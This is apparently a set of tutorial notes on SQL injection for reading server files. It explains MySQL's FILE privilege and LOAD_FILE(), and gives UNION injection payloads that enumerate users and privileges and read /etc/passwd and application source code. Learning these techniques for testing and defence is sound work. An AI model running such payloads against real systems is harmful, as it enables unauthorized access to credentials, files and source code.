 # Reading Files

The ability to read files on a server represents a significant security risk. Attackers can exploit SQLi vulnerabilities not only to extract data from databases but also to access sensitive files stored on the server. This capability often hinges on the privileges assigned to the database user. For instance, in systems like MySQL, the FILE privilege is required to read or write files. By leveraging SQLi techniques, such as UNION queries and functions like LOAD\_FILE(), an attacker can potentially gain access to critical system files, application source code, and sensitive information, such as database credentials. Understanding this aspect of SQLi is essential for identifying vulnerabilities and implementing effective security measures to safeguard against unauthorized file access

**Overview of SQL Injection**

* SQL Injection (SQLi) can be used not only to extract data from databases but also to read/write files on the server and potentially achieve remote code execution.

**User Privileges**

* **Reading vs. Writing**: Reading data is common; writing is restricted to privileged users to prevent exploitation.
* **MySQL FILE Privilege**: To read/write files, the database user must have the FILE privilege.
* **Determine Current User**: Use the following queries to identify the current database user:
  * `SELECT USER()`
  * `SELECT CURRENT_USER()`
  * `SELECT user FROM mysql.user`
* **Example UNION Injection**:
  * `cn' UNION SELECT 1, user(), 3, 4-- -`
  * This helps identify if the user is a DBA (e.g., root).

**Checking User Privileges**

* **Super Admin Privileges**: Check for super admin privileges with:
  * `SELECT super_priv FROM mysql.user`
* **Example Payload**:
  * `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -`
* **Dumping Privileges**: To see all privileges:
  * `cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -`
* **Identifying FILE Privilege**: If the FILE privilege is present, we can read/write files.

**Reading Files with LOAD\_FILE**

* **Using LOAD\_FILE()**: This function reads data from files in MariaDB/MySQL.
  * Example to read `/etc/passwd`:
    * `SELECT LOAD_FILE('/etc/passwd');`
* **Example UNION Injection for File Reading**:
  * `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`
* **Accessing Application Source Code**: Attempt to read the source code of `search.php`:
  * `cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -`
  * The HTML code can be viewed in the browser (Ctrl + U).

**Conclusion**

* SQL Injection can be a powerful tool for accessing sensitive information if proper privileges are not enforced. Understanding user privileges and leveraging functions like LOAD\_FILE can expose critical data, including application source code and database credentials. Always ensure robust security measures are in place to mitigate these risks.

